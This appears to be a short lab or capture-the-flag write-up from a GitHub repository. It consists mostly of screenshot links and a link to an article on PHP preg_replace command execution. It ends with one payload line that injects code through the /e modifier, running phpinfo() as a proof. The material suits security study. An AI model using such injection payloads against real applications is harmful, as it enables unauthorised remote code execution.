 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2361431a-bf37-44b2-806a-b76500028462)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9abfe5ff-af2e-4673-a9a1-4e31626755ba)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3c63736c-a880-4232-9dfd-ed420b507e97)

https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/019d9fe1-3ab4-47b8-a34b-21e260c328b7)

```
pattern=/a/e&replace=phpinfo();&paragraph=4
```


